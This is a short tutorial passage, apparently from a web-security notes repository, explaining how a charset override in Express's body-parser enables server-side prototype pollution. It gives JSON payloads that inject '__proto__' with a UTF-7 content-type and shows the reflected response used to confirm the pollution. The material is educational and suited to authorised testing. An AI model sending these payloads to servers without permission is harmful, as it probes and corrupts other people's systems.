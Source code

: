 # Charset Override

Express servers use middleware to process requests before passing them to handlers. The **body-parser** module, for example, parses request bodies and creates `req.body`.

```js
var charset = getCharset(req) || 'utf-8' 

function getCharset (req) { 
	try { 
		return (contentType.parse(req).parameters.charset || '').toLowerCase() 
	} catch (e) {
		return undefined 
	}
} 
read(req, res, next, parse, debug, { 
	encoding: charset, 
	inflate: inflate, 
	limit: limit, 
	verify: verify 
})
```

In the code above, `getCharset(req)` attempts to parse the `Content-Type` header to determine the character encoding. If **no charset** is defined, it falls back to an empty string (`''`). This value is then passed to `read()` as an **encoding option**, defaulting to `'utf-8'`.

Since `charset` is an empty string, we can attempt to exploit it using Prototype Pollution by injecting a different/custom encoding.

***

If you can find an object whose properties are visible in a response, you can use this to probe for sources. In the following example, we'll use UTF-7 encoding and a JSON source.

1. Add an arbitrary UTF-7 encoded string to a property that's reflected in a response. For example, `foo` in UTF-7 is `+AGYAbwBv-`.

```json
{  
    "role":"+AGYAbwBv-" 
}
```

2. Send the request. Servers won't use UTF-7 encoding by default, so this string should appear in the response in its encoded form.
3. Try to pollute the prototype with a `content-type` property that explicitly specifies the UTF-7 character set:

```json
{ 
	"role":"+AGYAbwBv-", 
	"__proto__":{ 
	"content-type": "application/json; charset=utf-7" 
	} 
}
```

3. Repeat the first request. If you successfully polluted the prototype, the UTF-7 string should now be decoded in the response:

```json
{ 
    "sessionId":"0123456789", 
    "username":"wiener", 
    "role":"foo" 
}
```
